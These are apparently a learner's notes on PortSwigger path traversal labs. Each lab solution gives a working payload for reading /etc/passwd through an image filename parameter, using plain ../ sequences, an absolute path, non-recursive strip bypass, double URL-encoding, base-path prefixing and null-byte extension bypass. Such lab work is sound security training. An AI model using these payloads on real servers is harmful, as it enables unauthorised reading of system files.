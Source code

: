# Lab

## Tool : Burp Suite

## Reading arbitrary files via directory traversal

### Lab: File path traversal, simple case

#### source: <https://portswigger.net/web-security/file-path-traversal/lab-simple>

* To solve the lab, retrieve the contents of the /etc/passwd file.

Solution:

To traversal, we need to take source of image like this **/image?filename=1**, after we have payload as `/image?filename=../../../etc/passwd`

## Common obstacles to exploiting file path traversal vulnerabilities

### Lab: File path traversal, traversal sequences blocked with absolute path bypass

#### source: <https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass>

* To solve the lab, retrieve the contents of the /etc/passwd file.

Solution:

As above we have payload as `/image?filename=/etc/passwd`

### Lab: File path traversal, traversal sequences stripped non-recursively

#### source: <https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively>

* To solve the lab, retrieve the contents of the /etc/passwd file.

Solution:

As above we have payload as `/image?filename=....//....//....//etc/passwd`

> In this lab, the filter removes *../* from the payload, so *....//....//....//* to *../../../*

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

#### source: <https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode>

* To solve the lab, retrieve the contents of the /etc/passwd file.

Solution:

First, I have payload as `/image?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` but it returned *No such file* after I try to use nested traversal sequences, it still return that. Hmm, i observe the solution and realize that mechanism of filter as blocking input containing path traversal sequences and then performs a URL-decode of the input, them interspersed with each other. So my first payload after decoding firstly, it is removed by application because of blocking input containing path traversal sequences. We need to a payload is double encoding, my finally payload as `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd` after double decoding it returned *../../../etc/passwd*.

### Lab: File path traversal, validation of start of path

#### source: <https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path>

* To solve the lab, retrieve the contents of the /etc/passwd file.

Solution:

As we can see */image?filename=/var/www/images/34.jpg* the application suppy for us a path include base folder to store images. So, we will need to go out of that and go to file *passwd*. We have payload as `/image?filename=/var/www/images/../../../etc/passwd`.

### Lab: File path traversal, validation of file extension with null byte bypass

#### source: <https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass>

* To solve the lab, retrieve the contents of the /etc/passwd file.

Solution:

We have payload as `*../../../etc/passwd%00.png*`. The filter check file extension so we need *.png*
> *a null byte represents the string termination point or delimiter character which means to stop processing the string immediately. Bytes following the delimiter will be ignored*

So the character after *passwd* isn't processed.

---
